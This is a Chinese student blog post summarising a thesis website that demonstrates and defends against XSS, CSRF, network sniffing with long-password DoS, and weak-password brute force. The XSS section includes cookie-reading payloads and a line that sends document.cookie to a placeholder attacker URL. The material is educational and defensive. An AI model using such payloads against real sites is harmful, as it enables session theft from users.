发表于 2018-06-20
发表于 2018-06-20
大四的毕业设计已经顺利结束，内容是结合常见的Web攻击和预防知识实现的一个网站系统。趁着毕业前的空闲，整理一下相关的知识。毕业设计文档有更加详细的攻击演示和预防措施等流程，想要浏览的可以私信我Email.
1.XSS攻击
2.CSRF攻击
3.网络嗅探
4.弱口令攻击
一、XSS(跨站脚本 Cross-site scripting)
原理：
它允许恶意用户将代码植入到其他用户可访问的页面中。做过网站前端的开发者应该不会陌生，浏览器加载页面的时候会解析HTML、JavaScript代码，某些特殊的字符串在浏览器端被执行，攻击者抓住了这一特性加载攻击脚本，进行恶意攻击。
实现方式：
示例一：
打开百度，然后在地址栏输入：javascript:alert(document.cookie)
(javascript需要手动输入，复制的话浏览器会自动忽略掉)，然后就可以看到下图所示的效果:

示例二：
利用img的error事件：'<img src=”null” onerror =’alert( document.cookie)’ /> ',攻击效果如下图。如果将脚本替换成'http://攻击者/cookieCol?cookie=document.cookie'，那么用户信息则进入了攻击者的数据库了。

预防措施：
谨记：永远不要相信用户的输入。所以对于用户输入的内容，需要利用HTML编码对一些特殊的字符进行转义，当浏览器渲染页面数据的时候，浏览器就会将这些转义的内容解码成正常的字符串，但是浏览器不会执行这些脚本了。常见的处理方式如下。

二、CSRF(跨站请求伪造 Cross-site request forgery)
原理：
通过伪装来自受信任用户的请求来利用受信任的网站，通过操纵用户的会话或登陆权限，以对目标程序或用户进行攻击。这是一种挟制用户执行非本意的操作的攻击方法，一般来说CSRF是由XSS实现的，不过CSRF更偏向于攻击结果。通过下面的攻击实例就会清楚其原理。
实现方式：
攻击者在一个论坛上注册账号进行实际体验的时候发现了一个上传内容的漏洞，即上传内容的请求地址是“localhost:3000/editIn”，这时攻击者伪造一个界面（比如恶意邮件、钓鱼网站），页面隐藏了一个请求到该地址的form表单，虽然该网页看起来空空如也，但是只要用户在正常登陆下访问了该攻击网页，那么就会自动携带用户的Cookie，利用Cookie的同源策略发起攻击，最后成功发表一篇文章，如下图：
1.某用户已经发表的文章列表

2.恶意用户创建的带有攻击脚本的网页

3.该用户遭受CSRF攻击后被非法发表一篇文章

预防措施：
由于CSRF的攻击特点是利用用户的cookie身份信息在第三方网站发起进攻，那么相应的防御策略就应该是服务器区分用户的请求是从自身网站发起还是从第三方网站发起。
1.同源检测：
利用HTTP请求的两个header字段（Origin Header、Referer Header）来判断请求来源是否合法，但对于攻击者来说，发起请求的 Header 字段是可以更改的，所以不可靠。
2.通过Token识别：
涉及到重要操作的界面，需要加上Token识别码。当第三方网站请求的时候没有Token码，那么服务器就能判断该请求是非法的，而且要保证每个页面的Token识别码都不一样，并且都只能使用一次，当请求一次后就重新分配新的Token，避免被攻击者重复利用。具体实现如下图：
1.服务端生成随机Token，并随请求返回到前端界面暂存起来

2.前端请求携带该Token到服务器，跟存在的Token进行匹配是否满足

3.若是验证不通过，则给与小小的警告！！！

三、网络嗅探
原理：
网络上的信息是以数据包的格式进行传输的，而嗅探器的出现最初是为了合法的管理网络，将嗅探工具放在网络连接的设备上、局域网、网关服务器、路由器等地方，比如监视网络流量，分析数据包、监视网络资源利用、执行网络安全操作规则、鉴定分析网络数据以及诊断并修复网络问题等，但是正因为嗅探器的这些强大特性，后来被黑客逐渐利用进行网络数据的监听、窃取、修改等操作，对信息的安全性造成了很大的威胁。
实现方式：
1.请求劫持：
嗅探器可以监听网站发出的所有请求信息，包括浏览器设备信息、Cookie字段、请求网址、请求内容等。本次测试使用的是BurpSuite工具进行抓取，测试前需要在谷歌浏览器上打开代理插件，当用户登陆后，浏览器的请求头部信息、登陆名和密码就被抓取到了。
1.用户输入正确的账号密码进行登陆

2.嗅探器监听到了本次请求的网络数据
2.长密码攻击：
在网站开发过程中，为了保证密码的安全性，对于用户的密码一般是将其进行MD5加密后再存储到数据库中去的，因为即使数据库被攻破，由于MD5加密不可逆的特性，用户的密码也不至于被逆向推导出来，从而保证密码的安全性。
通常看来，密码长度当然是越长越好，因为被破解的几率更小，但是这种观点有一定的局限性，因为对密码的加密过程需要服务器进行复杂的计算，而密码越长，需要耗费的时间就越久。根据Django发布的声明，一段长达一兆字节的密码进行加密，计算耗费的时间长达一分钟之久，如果黑客利用这个特性故意反复的发送这么长的密码，则有很大可能造成服务器宕机，成为典型的DOS攻击案例。
在实际开发的情况下，即使网站前端页面对用户的密码输入进行长度限制，嗅探器也能监听到网络请求，并将合法密码替换成较长密码继续向服务器发起请求，即使密码错误，但是服务器依然需要耗费大量时间对密码进行加密，然后再与数据库的密码进行匹配，着就是典型的长密码拒绝服务攻击。
预防措施：
HTTPS是以安全为目标的HTTP通道，即在HTTP下加入SSL层，保证数据传输的保密性、完整性、真实性。因为HTTPS用到了数字证书、对称加密、非对称加密等技术，这些特性足以保证网络嗅探无法对网络数据进行非法操作。
在网站开发的过程中，已经考虑到了由HTTPS协议代替HTTP协议，操作过程比较轻松，只需要向权威机构提交申请，通过后然后将对应的证书文件部署到服务器，然后打开443端口，对Nginx配置文件进行修改，重启网站服务器，就能使用HTTPS协议了。如下图。
1.腾讯云官网申请HTTPS证书

2.对申请的Nginx服务器证书上传到服务器

3.在服务器端修改Nginx配置文件

四、弱口令攻击
原理：
弱口令没有严格的定义，但是通常指的是容易被他人猜到或者容易被破解工具暴力破解的口令。通常在网站的用户登陆界面，很多人倾向于使用包含简单数字和字母的密码，因为密码简单容易记住不会丢失，但是密码过于简单会造成很大的风险，因为用户名和密码就是网站的通行证，一旦被他人获取，可能就会被人冒充在网站上执行非法操作。目前的一些渗透测试工具比如BurpSuite软件，攻击者利用该工具可以在很短的时间内枚举大量密码向服务器发起请求，从而达到暴力破解的目的。
实现方式：
通过演示使用BurpSuite软件进行用户密码暴力破解，在浏览网站时选取其中一个用户名“11111”，本次通过软件枚举7万多个若密码，最后将其破解。
1.攻击者随机选取一个用户名

2.利用工具枚举多个可能存在的弱密码

2.经过连续的暴力尝试后破解了真实密码

预防措施：
目前比较流行的防御策略就是：1.限制用户的输入为字母数字符号等混合类型 2.限制IP访问频率
3.使用验证码机制。
在开发过程中，不仅需要对用户的输入在前端进行判断，而且也要在后端进行判断，因为很多渗透工具是可以绕过前端页面直接请求的，所以为了用户密码的安全性，需要在前后端都进行限制判断。
对于暴力破解或者批量注册，验证码的作用非常强大，服务端将随机选取几位数字，然后生成一位图片放到客户端，当用户输入了验证码后服务端会判断是否正确，并且会重新生成一个验证码，然后才能执行后续的请求操作。第三方工具是无法自动识别图片上的验证码的，所以就算使用工具枚举多个用户名或者密码，也无法提前预知验证码到底是哪些数字，所以高频率访问也就失效了。
1.前后台都要对用户输入进行限制

2.服务端生成验证码（引入第三方nnpm包-captchapng）

3.前端页面出现验证码图片

4.服务端对验证码进行识别

当然，除了上面几种常见的Web攻击，还有很多新型的攻击方式，当前的网络安全形式更加严峻。最后，为了方便监控网站运行安全，网站系统做了安全日志记录分析。

欢迎转载，转载请注明出处。